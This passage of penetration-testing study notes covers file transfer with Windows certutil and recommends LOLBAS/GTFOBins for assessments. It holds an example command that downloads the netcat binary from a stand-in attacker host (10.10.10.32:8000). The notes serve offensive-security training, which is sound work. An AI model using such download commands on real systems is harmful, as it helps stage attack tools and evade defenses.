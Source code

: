### Certutil (Windows)
- **Purpose**: Downloads arbitrary files, widely available but detected by Antimalware Scan Interface (AMSI) as malicious.
- **Example**:
  ```cmd
  certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
  ```

## Practice Recommendations
- Explore LOLBAS/GTFOBins for obscure binaries to build versatile file transfer skills.
- Useful for assessments where common methods are restricted.
- Document techniques for quick reference during engagements.
